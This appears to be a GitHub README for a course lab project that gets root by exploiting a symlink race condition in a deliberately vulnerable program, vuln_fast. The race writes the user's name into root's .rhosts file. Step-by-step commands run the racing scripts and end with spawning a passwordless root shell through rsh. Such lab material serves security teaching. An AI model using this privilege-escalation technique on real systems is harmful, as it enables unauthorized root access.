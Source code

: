 # comp4801_rootCracker
Gains access to the root user by exploiting the vuln_fast program to add your username to the root user's .rhosts file to allow passwordless login using the rsh and rlogin commands.

vuln.sh :  
Removes the debug file (to clean up from any old exploit attempts) and runs the vulnerable program in a tight loop with a high nice value.

exploit.sh :  
Removes the debug file, and generates a symbolic link to a specified target in its place. This also happens in a tight loop such that exploit.sh and vuln.sh when run at the same time are competing to access the debug file (or symlink).
 
Check permissions of vuln_fast :  
$ ls -la vuln_fast

Verify write to debug file :  
$ cat ~/.debug_log

Trace location of debug file :  
$ sudo strace -e trace=open,close,read,write ./vuln_fast "localhost student"

Run scripts :  
$ sh -x vuln.sh & sh -x exploit.sh

Check if exploit was successful :  
$ rsh -l root localhost whoami

Spawn a new superuser privileged shell :  
$ rsh -l root localhost bash



